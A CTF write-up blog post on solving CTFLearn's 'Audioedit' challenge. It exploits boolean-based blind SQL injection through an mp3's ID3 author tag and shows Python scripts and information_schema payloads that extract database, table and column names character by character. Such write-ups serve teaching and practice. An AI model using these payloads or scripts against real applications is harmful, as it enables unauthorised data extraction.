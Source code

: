 ```yaml
---
layout: post
title:  "Audioedit Writeup: CTFLearn"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in morning,  lost my entire day on simple mistakes and got real frustated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge in night from my friend **Jokr**. So, lets get started.

# Finding the Injection
As its name suggest, it takes `.mp3` file and edits it. So, we have a file upload which leads to edit page with unique generated filename. I tried playing with file upload. Eventually, it lead me to nowhere and i assumed file upload was secure. So, what to do then. Well, it took me sometime to realize the file was being fetched from database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isnt here still I tried SQL injection and injecting a quote, i  got error **"Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for sometime again failed me. It wasnt working for some reasons (not because of rabbit). Later, injecting " gave me same error as '  which means its not vulnerable. I took some caffeine and started thinking where could i find possible attack vector as i could only upload .mp3. 

Later he gave a hint that SQLi is in exif metadata. Also, `exiftool` didnt work for mp3 file, so i had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmdline script for the situation.

# Knowing the Injection
First, i confirmed the vulnerability by adding a single quote (and by testing double quote). This command injects author tag in mp3: `mid3v2 -a "' or '" testing.mp3`. I got 0 in author response which indicates condition evaluated to False. Since, running program, uploading it and checking condition is lengthy, i used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time i tried something new, it gave a error. One more thing to notice is that sending file content with same content but entirely different filename caused **File Exist** error to be thrown. Mine frustation slowly increased with time, later i found out it was because i directly edited the request from burpsuite *(which i should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally i found out what i was exploiting was boolean based blind SQLi. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploing SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database, table and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  which returned 1 and is equivalent to boolean true. 

Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is a SQLExploit object which i will talk later, and tries all the character while `reset()` function opens the mp3 file again. I ran into problem where first query ran successfully while second errored out in while loop. This again wasted my 10 minutes along with giving me some irritation. Later i fixed it by reopening the file each time i execute the loop. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need lets start the exploit. Also, some part was slightly modified in this code which i wont show as its not necessary.
Now, lets run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Lets go for table. I asked him about how to find tables and hinted about information_schema. I created similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, its hard to include this upper payload in SQLi and thats why i did `substr()` method. Also, after debugging my payload and improving it i get:     

`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`   
 
I also modified `setcmd()` function slightly and exploiting gives me `audioedit` which is same as database name.

Ah, i was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema i used this:   

`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First i thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when payload was large, then i added `()`  which caused error. Oh, so spaces are the problem. Why the hell did i used `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally it worked like a charm and got the first column name, then second, then third. 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column File and found out the flag was in file `supersecretflagf1le.mp3`. So, i used the file parameter to reference that file and unfortunately i didnt get flag. 

# Audio Editing
Its the final step, setting visualization to sonogram and editing some other stuffs, i get the flag embedded in image.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

Also i used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


# Takeaway 

* Always check for lenth of SQL query you can inject
* Pay attention to smaller details to prevent error
* Never edit a binary by hand in `Burpsuite`

